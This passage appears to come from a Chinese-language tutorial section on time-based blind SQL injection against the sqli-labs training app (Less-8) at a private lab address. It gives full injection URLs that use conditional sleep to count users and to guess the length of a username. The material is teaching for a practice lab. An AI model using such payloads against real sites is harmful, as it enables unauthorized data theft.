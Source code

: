 ![img](assets/VEeOIlSn41oCb9d.jpg) 

#### 3.4.4.10.**猜测某字段数据的长度**

这里可以顺带测一下users表中存在多少个用户，我这里我后期添加了一个，所以是15个用户。注意是从0开始计算。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(username) from users)=14,sleep(5),1)--+

![img](assets/5F9AiTdaXwQegqh.jpg) 

猜测users表中username第一行长度

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select username from security.users limit 0,1))=4,sleep(5),1)--+

![img](assets/ank8U1yNMBl7Tuq.jpg) 
